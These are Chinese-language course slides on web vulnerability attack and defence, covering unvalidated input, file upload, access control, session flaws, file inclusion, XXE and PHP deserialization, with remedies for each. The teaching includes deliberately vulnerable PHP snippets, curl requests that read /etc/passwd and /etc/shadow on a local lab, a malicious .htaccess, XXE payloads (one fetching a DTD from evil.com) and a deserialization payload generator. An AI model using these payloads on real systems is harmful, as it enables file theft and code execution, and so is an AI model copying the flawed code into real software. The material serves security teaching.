# 第七章 Web 应用漏洞攻防 {id="web-attack-defense"}

---

## Web 安全模型 {id="web-sec-model"}



---

## Web 应用模型 {id="web-app-model"}

|          | 浏览器(Browser)  | Web 服务器(Server)         | 后端服务(Backend)          |
| --       | --               | --                         | --                         |
| 业务     | UI / UE          | CRUD / RESTful             | Search / Cache / DB        |
| 框架     | Vue.js           | Laravel / Struts2          | -                          |
| 语言     | js / html / css  | PHP / Java / Python / Ruby | SQL / DSL                  |
| 运行环境 | Chrome / Firefox | Nginx / php-fpm / Tomcat   | K8S / ES / MySQL / MongoDB |
| 基础设施 | Win / macOS      | Linux                      | Linux                      |

---

## 通信协议

* 浏览器 <--> Web 服务器：HTTP

# 回顾 HTTP {id="review-of-http"}

---

1. 浏览器 --- HTTP 请求消息 ---> 服务器
    * 服务器 --- 请求 ---&gt; 后端服务
    * 服务器 &lt;--- 响应 --- 后端服务
2. 浏览器 &lt;--- HTTP 响应消息 --- 服务器

---



---

## 必知必会基本概念 {id="http-essentials-1"}

`HTTP-message   = Request | Response     ; HTTP/1.1 messages`

---

## 必知必会基本概念 {id="http-essentials-2"}

* 请求行
    * [`Request-Line   = Method SP Request-URI SP HTTP-Version CRLF`](https://www.ietf.org/rfc/rfc2616.txt)
* 请求头
    * 常见请求头
    * 不同请求头取值的特殊含义
* 请求体
    * 二进制文件上传的编码方式
* （响应）状态行
    * `Status-Line = HTTP-Version SP Status-Code SP Reason-Phrase CRLF`
* 响应头
* 响应体

---

## 必知必会基本概念 {id="http-essentials-3"}

* URL 编码
* SQL
* JSON
* ...

# 漏洞攻防训练环境搭建

---

* PHP Web 漏洞复现环境
* WebGoat 漏洞复现环境

---

## 千叮咛万嘱咐的注意事项

1. ⚠️  不要在宿主机上直接搭建漏洞复现环境       ⚠️
2. ⚠️  请在虚拟机内搭建漏洞复现环境             ⚠️
3. ⚠️  且训练入口严格限定在本机虚拟网络范围内   ⚠️

---

## PHP Web 漏洞复现环境 {id="php-web-sec-lab"}

```{.bash .number-lines}
# （可选步骤）新版 Kali 已在默认安装时禁用 root 用户
# 允许 root 用户远程 SSH 登录
# root 用户权限执行以下命令
sed -i.bak "s/#PermitRootLogin prohibit-password/PermitRootLogin yes/g" /etc/ssh/sshd_config

# 开启 SSH 服务
systemctl start ssh

# 设置 SSH 服务开机自启动
systemctl enable ssh

# 检查当前系统中是否已安装 PHP 命令行解释器
php -v

# 如果输出了 PHP 解释器版本信息，则跳过以下安装步骤
# 直接跳到「启动 PHP 内置开发版 Web 服务器」

# 安装当前发行版支持的最新版 PHP 命令行解释器
apt update && apt install php-cli

# 如果需要安装「旧版本」PHP 解释器，推荐使用 Docker
# https://hub.docker.com/_/php

# 安装完毕后检查当前安装的 PHP 命令行解释器版本
php -v

# 启动 PHP 内置开发版 Web 服务器
# 建议在 tmux 会话中执行该命令
php -S 0.0.0.0:8080

# 使用浏览器访问虚拟机的任意一个可用网卡上的 IP 地址
# 端口号设置为 8080
# 例如 http://127.0.0.1:8080/
```

---

## WebGoat 漏洞攻防训练环境 {id="webgoat-lab-setup"}

访问 [https://github.com/c4pr1c3/ctf-games](https://github.com/c4pr1c3/ctf-games) 获得本课程定制的 Web 漏洞攻防训练环境。

> 或访问国内镜像仓库 [https://gitee.com/c4pr1c3/ctf-games](https://gitee.com/c4pr1c3/ctf-games)

# 输入相关的通用漏洞

---

## 一切罪恶都是源于恶意输入数据

* 不要相信任何来自客户端的提交数据
    * 客户端的任何数据校验都是纸老虎
        * 客户端的数据校验机制防君子不防黑客
* 数据和指令/代码必须严格区分
    * 缓冲区溢出时的机器指令运行在可执行堆栈上
    * SQL 注入时执行任意SQL语句
    * XSS 时执行任何客户端脚本代码（JS/Flash AS）
    * 文件上传时上传服务端脚本代码在服务器端执行任意代码

# 1. 未验证的用户输入-示例 {id="tainted-user-input"}

---

## 缺陷代码示例

```{.php .number-lines}
<?php
$file = $_GET['file'];
echo file_get_contents($file);
```

---

## 利用方式示例

```bash
curl "http://127.0.0.1:8080/exp-1.php?file=exp-1.php"
curl "http://127.0.0.1:8080/exp-1.php?file=/etc/passwd"
curl "http://127.0.0.1:8080/exp-1.php?file=/etc/shadow"
```

---

## 基本原理

攻击者可以篡改 `HTTP 请求消息` 的任何一个部分

* HTTP 请求行 
* HTTP 请求头 
* HTTP 请求体

---

## 常见的输入篡改攻击

* 强制浏览
* 命令注入
* 跨站点脚本攻击
* 缓冲区溢出攻击
* 格式化字符串攻击
* SQL 注入
* Cookie 毒化
* 隐藏域控制

---

## 输入篡改攻击的成因

* 只在客户端进行输入验证
* 过滤时未进行规范化
* 过滤后引入新漏洞

---

## 典型漏洞利用方法

1. 拦截 HTTP 请求数据
2. 修改数据 
3. 继续发送篡改后数据

---

## 典型漏洞利用工具

* HTTP 协议调试工具 
* BurpSuite
* 浏览器内置的开发者工具

---

## 安全加固方案 {id="prevent-input-weakness-1"}

* 所有的用户输入需要在服务器端进行集中的统一验证
    * HTTP 请求行 
    * HTTP 请求头 
    * HTTP 请求体
* 代码复查
* 不要“滥用”隐藏域
    * 存储在 Session 中或从每次请求中获取参数值

---

## 安全加固方案 {id="prevent-input-weakness-2"}

* 请求参数需要严格的验证其类型
    * 数据类型（string, integer, real, etc…）
    * 最小和最大长度
    * 是否允许 NULL
    * 参数是否是必需的
    * 数字的取值范围
    * 特定模式（正则表达式）
        * 白名单机制

---

## 安全加固方案 {id="prevent-input-weakness-3"}

* 服务器返回给客户端的重要参数、赋值使用 `HMAC` 进行参数签名
    * 千万不要使用 `MD5`、`SHA-XXX` 之类的摘要算法对参数进行摘要计算，也不要使用基于“秘密盐值”的 `MD5`、`SHA-XXX` 之类的摘要算法对参数进行摘要计算
        * [Hash 长度扩展攻击可以用来伪造消息和对应的散列值](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)
    * 对客户端提交的请求校验关键逻辑代码中的参数，一旦 `消息完整性签名` 校验失败，说明客户端尝试篡改请求参数攻击，代码逻辑直接跳过后续业务逻辑代码，给客户端返回统一的错误信息

# 2. 缓冲区溢出漏洞 {id="bof"}

---

* 应用程序的缓冲区中存在过量的输入数据，溢出的数据中包含恶意指令且恶意指令被精确填充到可执行堆/栈（内存）中进而导致恶意代码被执行
* 一般情况下，Web 应用程序不存在缓冲区溢出漏洞

---

* Java Web 应用程序不存在缓冲区溢出风险？
    * OutOfMemoryError
    * CVE-2011-0311
    * CVE-2009-1099

---

* PHP Web应用程序不存在缓冲区溢出风险？
    * CVE-2011-3268 
    * CVE-2008-5557 
    * CVE-2008-2050 
    * CVE-2007-1399 
    * CVE-2007-1381 

---

* 其他语言编写的Web应用程序呢？
    * 后台应用系统
    * 本地代码

---

只要系统中直接或间接存在使用 `C/C++` 编写的代码，那么该系统就难以彻底摆脱「缓冲区溢出等」`内存破坏类` 攻击。
 
---

## 安全加固方案 {id="prevention-to-bof"}

* 避免使用本地代码
* 避免直接调用本地应用程序
* 及时更新应用运行环境
    * Java 虚拟机的安全更新补丁
    * PHP 语言的安全更新补丁
* 限制 Web 应用程序的运行权限
    * 沙盒技术

# 3. 文件上传漏洞 {id="file-upload-vul"}

---

* 允许用户上传文件可能会让黑客
    * 在网页中嵌入恶意代码
        * 网页木马：控制客户端（网站用户）
        * XSS漏洞 / CSRF漏洞 / 构造钓鱼页面…
    * 上传webshell
        * 控制服务器
* 文件上传漏洞原理
* 接下来会通过 PHP 代码实例进行讲解

---

## 推荐训练学习资源

* [upload-labs 一个使用 PHP 语言编写的，专门收集渗透测试和 CTF 中遇到的各种上传漏洞的靶场](https://github.com/c0ny1/upload-labs)

---

## 文件上传漏洞基本原理之利用方式示例



---

## 文件上传漏洞基本原理之缺陷代码片段

```php
// 摘自 upload-labs 的 Pass-02/index.php
if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) { // BUG 检查用户上传文件的「文件类型」是否在白名单上
    $temp_file = $_FILES['upload_file']['tmp_name']; // 获取用户上传文件的临时存储文件路径
    $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']; // 获取用户上传文件的原始文件名
    if (move_uploaded_file($temp_file, $img_path)) { // 按照用户指定的文件名存储文件到服务器上指定目录
        $is_upload = true;
    } else {
        $msg = '上传出错！';
    }
} else {
    $msg = '文件类型不正确，请重新上传！';
}
```

---

## 有意思的 NULL 字符截断问题 {id="php-null-trim-vul"}

* 何为NULL字符
    * %00
    * ASCII码为0
* PHP官方在 **2010 年 12 月 9 日** `PHP 5.3.4` 版本正式修复了该漏洞
    * [CVE-2006-7243](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2006-7243)
    * **用了4 年时间修补一个漏洞！**
    * PHP 5.3.4 之前版本仍然受此漏洞影响
* 不仅仅是 PHP 语言受此漏洞影响！

---

[](https://asciinema.org/a/lz7w9iJHZ5qUyV4a1b8Ac9xU3)

---

```php
# 自行体验 PHP 5.3.0 环境中的 CVE-2006-7243 漏洞利用过程
docker run --rm -it c4pr1c3/dve-php:5.3.0 bash
```

---

## 判断文件类型的安全实践 {id="check-file-type-1"}

* 读取[文件头标识](https://www.garykessler.net/library/file_sigs.html)
    * PNG(8 bytes):89 50 4E 47 0D 0A 1A 0A
    * GIF(6 bytes):47 49 46 38 39 61 (GIF89a)



---

> 文件头标识指纹匹配足够安全吗？

---

**No!**

---

* 对于 GIF 图片的有效性判定方法
    * 补充使用 `getimagesize()`
    * 限制上传的 `GIF` 图片分辨率尺寸在合理范围内

---



---

* 对于其他类型文件
    * 禁用上传目录的脚本执行权限

以 `Apache` 为例，可以使用 `.htaccess`

```
<Directory /upload>
Allowoverride All
</Directory>
<Location /upload>
Options None
	Options +IncludesNoExec -ExecCGI
	RemoveHandler .php .phtml .php3 .php4 .php5
	RemoveType .php .phtml .php3 .php4 .php5
	php_flag engine off
	php_admin_flag engine off
	AddType text/plain .html .htm .shtml .php
</Location>
```

---

## .htaccess 防御文件上传漏洞利用的潜在副作用 {id="exploit-htaccess"}

> 攻击者上传精心构造的 `.htaccess` 来使得「上传目录」下对特定文件类型开启脚本解释执行功能

```
<Directory /upload>
Allowoverride All
</Directory>
<Location /upload>
	Options +IncludesNoExec +ExecCGI
	php_flag engine on
	php_admin_flag engine on
    AddType application/x-httpd-php .php666 # 将 .php666 文件扩展名视为 PHP 代码解释执行
    php_value zend.multibyte 1  # 开启 PHP 引擎的多字节支持
    php_value display_errors 1  # 开启 PHP 代码错误信息完全显示
</Location>
```

---

## 继续文件上传漏洞的防御方法探讨

* 即使
    * 检查是否判断了上传文件类型及后缀
    * 定义上传文件类型白名单
    * 文件上传目录禁止脚本解析
* 仍然推荐
    * 定义文件名白名单
    * 上传后文件统一重命名
    * 杜绝 XSS 漏洞 / 文件包含漏洞 / 字符编码漏洞 …

# 服务端脚本相关漏洞

---

* 脆弱的访问控制
* 认证和会话管理缺陷
* 文件包含
* XXE 注入
* 反序列化漏洞
* 第三方组件缺陷

# 4. 脆弱的访问控制 {id="weak-acl"}

---

## 示例

* 文档/软件的下载链接地址保护
    * http://victim.org/docs/1.doc
    * http://victim.org/docs/download.do?id=1
* Web应用程序的后台管理入口地址
    * http://victim.org/admin
    * http://victim.org/console/login
* 后台操作未执行用户身份认证
    * http://victim.org/users/deleteUser.do?userid=001
    * http://victim.org/users/addUser.do?userid=001

---

## 描述

* 内容或程序功能未能有效的保护以限制只允许合法用户的访问
* 典型案例
    * **可预测** 的服务器端对象访问唯一标识
    * 强制浏览（直接在浏览器的地址栏中输入 URL ）
    * 目录遍历
    * 文件访问权限
    * 客户端缓存

---

## 可能的漏洞成因

* 认证只发生在用户登录时
* 仅对 URL 进行鉴权，而不是对完整的请求内容进行鉴权
* 未采取集中式的授权管理，而是分散授权管理

---

## 安全加固方案 {id="harden-access-control-1"}

* 对每个需要保护的请求进行检查，不仅是在用户第一次登录请求时进行检查
* 避免使用自己开发的访问控制，而是使用开发框架内置的或第三方可靠安全访问控制框架
    * 采用声明式而非硬编码的访问控制
    * 集中化访问控制而非分散访问控制

---

## 安全加固方案 {id="harden-access-control-2"}

* 防止客户端缓存重要内容：设置 HTTP 响应头和 `HTML meta` 标签
* 在服务器端使用操作系统提供的访问控制保护文件的未经授权的访问
* 业务模型的访问控制授权建模
    * 访问控制权限划分的三角形基本法则
* 平行权限访问
    * 属主权限检查
* 提升权限访问
    * 使用 ACL

---

### 访问控制的权限三角形模型



---

## 安全加固方案 {id="harden-access-control-3"}

| 主键 (id) | 主体 (subject) | 客体 (object)         |
| ---       | -------        | ------                |
| 1         | Alice          | /srv/www/upload/1.doc |
| 2         | Bob            | /srv/www/upload/2.doc |

当发生文件访问请求时，可以通过如下的 SQL 语句来检查当前访问是否是授权操作。

```sql
-- 只有当查询结果 > 0 时才说明是授权访问，否则均是非授权访问行为
select count(id) from tb_acl where subject=%user_name% and object=%access_file_path%
```

# 5. 认证和会话管理缺陷 {id="auth-session-weakness"}

---

## 示例 {id="auth-session-weakness-1"}

* 未采用Session cookie，而是在URL中编码已通过认证的用户名和密码

> https://host/admin/list.jsp?password=0c6ccf51b817885e&username=11335984ea80882d

上面的这个 URL 很容易被一次 `XSS 攻击` 截获到

---

## 常见会话管理类缺陷分类

* 会话预测（Session Prediction）
* 会话劫持（Session Hijacking）
* 会话固定（Session Fixation）
* 会话偷渡（Session Riding）

---

会话预测（Session Prediction）指的是攻击者可以「预测」出服务端的合法「会话令牌」，从而达成身份冒用的效果。

---

* 会话劫持（Session Hijacking）可以通过中间人劫持攻击或跨站点脚本攻击方式拿到用于会话唯一标识的「会话令牌」
* 本节所举的第一个极端简单的脆弱身份认证例子正是这种类型缺陷

---

* 会话固定（Session Fixation）利用到了服务端脚本对于 **身份认证前使用的「会话令牌」在身份认证通过之后没有更换新「会话令牌」** 这个设计模式的缺陷
    * 攻击者诱骗受害用户使用攻击者提供的「会话令牌」完成身份认证，这样，攻击者手里掌握的这个「会话令牌」也就相应的同步变为「身份认证通过会话令牌」了
    * 攻击者相当于在并不需要掌握受害用户身份认证凭据的情况下，「克隆」了受害用户的已登录会话
* 与会话劫持相比，攻击者并不依赖于直接读取到一个已经通过身份认证的「会话令牌」，攻击者初始提供给受害用户的「会话令牌」就是未通过身份认证状态下的
* 攻击得手之后，会话固定和会话劫持的效果是一致的：攻击者拿到了受害者用户身份对应的有效会话令牌

---

* 会话偷渡（Session Riding）是 `跨站点请求伪造（CSRF）` 的另一种表述
* 攻击者不需要克隆受害用户的会话，攻击者一次会话偷渡攻击只是借用受害用户保存在客户端的「会话令牌」执行一次受害用户不知情情况下的认证会话操作，攻击者对于受害用户使用的「会话令牌」具体是什么并不知情

# 6. 文件包含 {id="file-inclusion-vul"}

---

## 漏洞成因 {id="file-inc-causes"}

* **插件** 功能需要「动态加载执行代码」
* 当攻击者可以控制「加载什么代码」的时候，就触发了 `文件包含` 漏洞
* 几乎所有脚本语言都会提供文件包含功能，但 PHP 语言由于其过于灵活和自由的代码执行机制导致了大多数文件包含类漏洞都是出现在 PHP 编写的网站程序之中

---

## PHP 文件包含漏洞 {id="php-file-inc"}

* include()
* require()
* include_once()
* require_once()

> 上述四个 PHP 函数都可以传入「变量」来动态加载 PHP 源代码文件

> 既可以是「本地文件」，也可以是「远程文件」

---

## 一段缺陷代码示例

```php
<?php
if (@$_GET['page']) {
    include($_GET['page']);
} else {
    include "show.php";
}
```

---

> PHP 7.2.6 的默认运行时配置（php.ini）是禁止包含远程文件的，如下图所示是一次失败的远程文件包含漏洞利用行为尝试



---

> 如下图所示则是修改了 php.ini，设置 `allow_url_include=On` 之后再次执行得到的成功效果截图




---

上述例子中被包含的远程文件 `remote.php` 代码如下：

```php
<?php
phpinfo();
```

---

需要注意的是，除了 `allow_url_include=On` 远程文件包含漏洞利用的依赖配置之外，还依赖于 `allow_url_fopen=On`

---

## PHP 本地文件包含读取文件 {id="php-file-inc-read-file"}



---

## PHP 本地文件包含执行代码 {id="php-file-inc-lce"}

* 不依赖于修改 PHP 的默认运行时配置即可完成任意 PHP 代码执行
* 但相比较于远程文件包含方式，本地文件包含漏洞的利用往往需要配合 `文件上传` 漏洞利用才能达成目的
* 攻击者需要先上传包含 PHP 代码的文件到服务器上，然后还需要知道已上传文件存储在服务器上的路径（绝对路径或相对当前脚本执行环境的相对路径）
* 进而通过控制文件包含参数的赋值来加载刚刚上传的恶意文件中的 PHP 代码

---

## PHP 文件包含漏洞的利用技巧 {id="php-file-inc-tips-1"}

* 利用 `php://input`
	* [php://input](http://php.net/manual/zh/wrappers.php.php#wrappers.php.input) 是个可以访问请求的原始数据的 **只读流** 
	* 在使用 POST 方式请求时，HTTP 请求体中的数据会赋值给 HTTP 请求头中对应 GET 变量值为 `php://input` 的变量

---

> 如下图所示，使用 curl 构造了一个这样的请求，其中 HTTP 请求体中对应的是一段 PHP 代码：在当前脚本目录下执行操作系统 ls 命令



---

注意这种漏洞利用方式，同样依赖于 PHP 的运行时配置 `allow_url_include=On` ，否则漏洞利用会失败，如下图所示



---

* 利用 [data://](http://php.net/manual/zh/wrappers.data.php)



* [php://filter](http://php.net/manual/zh/wrappers.php.php#wrappers.php.filter) 
* `PHP %00` 截断漏洞

---

## 防御 PHP 文件包含漏洞 {id="prevention-to-php-file-inc"}

* 修改 PHP 的运行时配置文件 `php.ini`
	* 开启 `open_basedir` 函数，将其设置为指定目录，则只有该目录的文件允许被访问
	* `allow_url_include=Off`  禁止远程文件包含
	* 从代码级别避免和修复文件包含漏洞
		* 过滤文件包含路径变量的输入，采用白名单方式包含文件
		* 建议禁止从程序外部输入读取包含文件的路径

# 7. XXE 注入 {id="xxe"}

---

**X**ML E**x**ternal **E**ntity（XML 外部实体）注入。

---

[](https://asciinema.org/a/LirIB7Ci2dVh8yVQyXfskP7gH)

---

## XML 基础 {id="xml-basics"}

```xml
<!--1. XML 声明-->
<?xml version="1.0"?>
<!--2. 文档类型定义 Document Type Definition, DTD （可选）-->
<!DOCTYPE email [  <!--定义一个名为 email 类型的文档（内部 DTD）-->
<!ELEMENT email (to,from,title,body)>  <!--定义 email 元素有四个子元素-->
<!ELEMENT to (#PCDATA)>      <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>    <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT title (#PCDATA)>   <!--定义title元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>    <!--定义body元素为”#PCDATA”类型-->
]>
<!--3. 文档元素-->
<email>
<to>Bob</to>
<from>Alice</from>
<title>Cryptograpphy</title>
<body>We are famous guys.</body>
</email>
```

---

* `内部 DTD` - `<!DOCTYPE 根元素 [元素声明]>`
* `外部 DTD` 
    * `<!DOCTYPE 根元素 SYSTEM "文件名">`
---

## 可以用于 XXE 攻击的 XML 文档举例 {id="xxe-examples"}

```xml
<!-- 利用外部 DTD，读取系统文件 /etc/passwd -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<a>
        <!-- 读取到的 /etc/passwd 文件内容被保存在 passwd 变量中 -->
        <value>&passwd;</value>
</a>
```

```xml
<!-- 参数实体定义 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
    <!ENTITY %f SYSTEM "http://evil.com/evil.dtd">
    %f;
]>
<aaa>&b;</aaa>

<!-- 其中 evil.dtd 文件内容如下 -->
<!ENTITY b SYSTEM "file:///etc/passwd">
```

---

上述 2 个例子中的 `XML 实体` 引用语法略有不同，但都是使用 `ENTITY` 关键字声明，可以当做「变量」来理解。

* `&`
* `%`

---

## XXE 漏洞成因关键 {id="xxe-internals"}

* `XML` 代码中包含了 **加载外部资源** 的「恶意变量声明」
* 服务端代码在解析 `XML` 代码时 **无限制** 解析「恶意变量」声明语句
* 「恶意变量」的值被 **回显** 

---

## XXE 漏洞利用典型效果 {id="xxe-impacts"}

* 敏感数据泄露（任意文件读取）
* 拒绝服务攻击
* 服务器端请求伪造
* 远程代码执行
* 执行应用程序托管服务器的网络端口扫描

---

## 防御 XXE 攻击 {id="prevention-to-xxe"}

* 禁用 XML 外部实体和 DTD 处理
* 使用无已知漏洞的 XML 解析器引擎组件

---

## 推荐训练学习资源 {id="xxe-recommends"}

* [PHP XXE 漏洞与利用源代码分析示例](https://github.com/vulnspy/phpaudit-XXE)
* [vulhub 提供的 XXE 漏洞学习训练环境](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)

---

> 只有 PHP 语言存在 XXE 漏洞吗？

---

## 探索一下其他编程语言

* [python 官方文档中对 xml 处理的常见漏洞总结](https://docs.python.org/3/library/xml.html#xml-vulnerabilities)
* [python_docx 存在 XXE 漏洞预警 CVE-2016-5851](https://snyk.io/vuln/SNYK-PYTHON-PYTHONDOCX-40402)
* [OWASP 的 XXE Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

---

[](https://asciinema.org/a/agBO50PpWVWA9ggCocQLGIhRQ)

---

## [Python XML 解析器其他漏洞类型](https://docs.python.org/3/library/xml.html#xml-vulnerabilities) {id="python-xml-parser-vuls"}

| kind                      | sax          | etree        | minidom      | pulldom      | xmlrpc       |
| --                        | --           | --           | --           | --           | --           |
| billion laughs            | **易受攻击** | **易受攻击** | **易受攻击** | **易受攻击** | **易受攻击** |
| quadratic blowup          | **易受攻击** | **易受攻击** | **易受攻击** | **易受攻击** | **易受攻击** |
| external entity expansion | 安全 (4)     | 安全 (1)     | 安全 (2)     | 安全 (4)     | 安全 (3)     |
| DTD retrieval             | 安全 (4)     | 安全         | 安全         | 安全 (4)     | 安全         |
| decompression bomb        | 安全         | 安全         | 安全         | 安全         | **易受攻击** |

1. xml.etree.ElementTree 不会扩展外部实体并在实体发生时引发 ParserError。
2. xml.dom.minidom 不会扩展外部实体，只是简单地返回未扩展的实体。
3. xmlrpclib 不扩展外部实体并省略它们。
4. 从 Python 3.7.1 开始， **默认情况** 下不再处理外部通用实体。

---

## 推荐训练学习资源 {id="xxe-recommends-others"}

* [python-xxe](https://github.com/c4pr1c3/python-xxe)
* [一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)


# 8. 反序列化漏洞 {id="deserialization"}

---

## 基础知识 {id="serialization-basics"}

* 序列化是将 **应用程序对象** 状态转换为 **二进制数据或文本数据** 的过程
* 反序列化则是其逆向过程，即从 **二进制数据或文本数据** 创建对象状态

> 应用程序使用该功能来支持有效 **共享或存储** `对象状态`

---

## 反序列化的典型应用场景 {id="serialization-usage"}

和前文的「文件包含」漏洞存在“合理性”类似： `反序列化` 特性也有典型需求场景

* 分布式系统的「远程过程调用」 **传参**：通过网络传输「对象」
* 游戏的进度 **存档** （序列化）与 **读档** （反序列化）

---

⚠️  但和「文件包含」功能一样，很快 **上述 `反序列化` 过程也遭到攻击者的恶意利用** ⚠️

---

## 「特性」被滥用或误用导致的『漏洞』

* 文件上传
* XXE
* 文件包含
* 反序列化

---

* 攻击者通过 **创建恶意的反序列化对象** ，在应用程序执行序列化时远程执行代码和篡改数据
* 使用不可信来源的对象序列化的分布式应用程序和 API 特别容易受到反序列化攻击

---

⚠️ **流行的服务端编程语言 PHP、Java 和 Python 等均有可能编写出包含反序列化漏洞的代码** ⚠️

---

## 反序列化漏洞典型案例

* [2015 年 Apache Commons Collections 反序列化远程命令执行漏洞](https://commons.apache.org/proper/commons-collections/security-reports.html) 影响范围包括：WebSphere、JBoss、Jenkins、WebLogic 和 OpenNMS 等
* [2017 年 3 月 15 日，fastjson 官方发布安全公告](https://github.com/alibaba/fastjson/wiki/security_update_20170315) 表示：fastjson 在 1.2.24 及之前版本存在（反序列化）远程代码执行高危安全漏洞，攻击者可以通过此漏洞远程执行恶意代码来入侵服务器
    * fastjson 是 Java 社区常用的 JSON 和 Java Bean 转换（反序列化）组件
* [Python 编写的 SQL 注入自动化利用神器 Sqlmap 存在的 Pickle 反序列化漏洞导致代码执行报告](https://blog.knownsec.com/2015/12/sqlmap-code-execution-vulnerability-analysis/)

---

⚠️  前方高能，开始「烧脑🤯」⚠️

---

## PHP 对象序列化基本概念 {id="php-serialization-official"}

[PHP 官方文档中摘录如下](https://www.php.net/manual/zh/language.oop5.serialization.php)

> 所有php里面的值都可以使用函数 serialize() 来返回一个包含字节流的字符串来表示。unserialize() 函数能够重新把字符串变回php原来的值。 序列化一个对象将会保存对象的所有变量，但是 **不会保存对象的方法**，只会保存类的名字。

---

## PHP 反序列化漏洞原理基础 {id="php-unserialize-basics"}

```php
<?php
// PHP 的对象序列化过程
class User {

    private $mobile;
    protected $age;
    public $name;


    public function say() {
        echo "My name is $this->name\n";
    }

    public function __construct($age = NULL, $name = NULL, $mobile = NULL) {
        echo "__construct is called\n";
        $this->age = $age;
        $this->name = $name;
        $this->mobile = $mobile;
    }

    public function __toString() {
        return "$this->name is $this->age old\n";
    }

    public function __sleep() {
        echo "__sleep is called\n";
        return array('age', 'name', 'mobile');
    }

    public function __wakeup() {
        echo "__wakeup is called\n";
    }

    public function __destruct() {
        echo "__destruct is called on $this->name \n";
    }
}

$user = new User(22, "Zhang San", "13800138000"); // 对象创建时自动触发 __construct()
echo $user; // $user 对象被当做「字符串」访问，自动触发 __toString()

// 序列化
$s_user = serialize($user); // 序列化时自动触发 __sleep() 方法
file_put_contents("/tmp/ser.bin", $s_user); // 序列化结果写入文件方便查看输出结果里的「不可打印」字符
echo $s_user . "\n"; // 打印序列化结果
system("hexdump -C /tmp/ser.bin"); // 16 进制方式查看「序列化结果」

// 反序列化
$r_user = unserialize(file_get_contents("/tmp/ser.bin")); // 反序列化时触发 __wakeup() 方法
$r_user->name = "Li Si";
echo $r_user; // 被 echo 时触发「字符串」转换魔术方法 __toString
$r_user->say(); // 调用「恢复出来的对象」的方法

// 序列化过程结束
printf("EOF reached\n");

// 全部脚本执行完毕，自动触发 $user 对象的 __destruct()
// 注意对象销毁的顺序和对象的创建顺序是相反的
// 栈操作顺序：先创建，后销毁

// 执行结果如下
/*
__construct is called
Zhang San is 22 old
__sleep is called
O:4:"User":3:{s:6:"*age";i:22;s:4:"name";s:9:"Zhang San";s:12:"Usermobile";s:11:"13800138000";}
00000000  4f 3a 34 3a 22 55 73 65  72 22 3a 33 3a 7b 73 3a  |O:4:"User":3:{s:|
00000010  36 3a 22 00 2a 00 61 67  65 22 3b 69 3a 32 32 3b  |6:".*.age";i:22;|
00000020  73 3a 34 3a 22 6e 61 6d  65 22 3b 73 3a 39 3a 22  |s:4:"name";s:9:"|
00000030  5a 68 61 6e 67 20 53 61  6e 22 3b 73 3a 31 32 3a  |Zhang San";s:12:|
00000040  22 00 55 73 65 72 00 6d  6f 62 69 6c 65 22 3b 73  |".User.mobile";s|
00000050  3a 31 31 3a 22 31 33 38  30 30 31 33 38 30 30 30  |:11:"13800138000|
00000060  22 3b 7d                                          |";}|
00000063
__wakeup is called
Li Si is 22 old
My name is Li Si
EOF reached
__destruct is called on Li Si
__destruct is called on Zhang San
*/
```

---

看上去 `User` 对象经过「序列化」（调用 `serialize()` 函数）之后变成了以下「字符串」：

```
O:4:"User":3:{s:6:"*age";i:22;s:4:"name";s:9:"Zhang San";s:12:"Usermobile";s:11:"13800138000";}
```

---

### 不要被不可打印字符欺骗了

* `protected` 属性字段 `age` 左边的 `*` (2a) 字符的左右两边被不可打印字符 `\00` 包围
* `private` 属性字段 `mobile` 左边拼接了字符串 `\00User\00` 其中 `User` 是类名

---

经过一番简单的上下文字符串特征比对分析，我们可以总结出如下简单「序列化」规律：

* `<对象标识>:<类名长度>:"类名":类的成员变量个数:{`
    * `O:4:"User":3:{`
* `<成员变量类型>:<成员变量名长度>:"<成员变量名>";<成员变量值类型>:<成员变量值>;`
    * `s:6:"\00*\00age";i:22;`
* `<成员变量类型>:<成员变量名长度>:"<成员变量名>";<成员变量值类型>:<成员变量值长度>:<成员变量值>;`
    * `s:4:"name";s:9:"Zhang San";`
* `<成员变量类型>:<成员变量名长度>:"<成员变量名>";<成员变量值类型>:<成员变量值长度>:<成员变量值>;}`
    * `s:12:"\00User\00mobile";s:11:""13800138000";}`

---

至此，我们可以再来回味一下 [PHP 官方文档中摘录如下这句话](https://www.php.net/manual/zh/language.oop5.serialization.php) 的关键词为什么用的是 **字节流** ：

> 所有php里面的值都可以使用函数 serialize() 来返回一个包含 **字节流** 的字符串来表示。unserialize() 函数能够重新把字符串变回php原来的值。 序列化一个对象将会保存对象的所有变量，但是不会保存对象的方法，只会保存类的名字。

---

基础知识普及完毕，现在终于可以看一下课本里的 PHP 反序列化漏洞原理代码了。

---

## 漏洞代码

```php
<?php
class cuc {
    var $test = 'whatever';
    function __wakeup() {
        $fp = fopen("shell.php", "w");
        fwrite($fp, $this->test);
        fclose($fp);
        echo '__wakeup';
    }
}

$class = $_GET['test'];

unserialize($class);
```

---

## 构造漏洞利用的关键负载

```php
<?php
class cuc {
    var $test = 'whatever';
    function __wakeup() {
        $fp = fopen("shell.php", "w");
        fwrite($fp, $this->test);
        fclose($fp);
        echo '__wakeup';
    }
}
$payload_class = new cuc();
$payload_class->test = "<?php phpinfo(); ?>";
$payload = serialize($payload_class);
print(urlencode($payload)); // urlencode() 结果是为了方便使用 curl 时给 GET 参数赋值
```

---

[](https://asciinema.org/a/pME1z7OyEA12JrXT5dKlwgCQQ)

---

## 反序列化漏洞的防御方案

* 将应用程序配置为不接受不可信来源的任何反序列化输入
* 仅使用具有基本数据类型的序列化函数（如 PHP 的 json_encode() 和 json_decode()）
* 如果这些措施不可行，那么在创建对象之前执行反序列化期间应强制实施约束类型，在较低特权环境（例如，临时容器）中运行反序列化，并限制与执行反序列化的服务器的网络连接
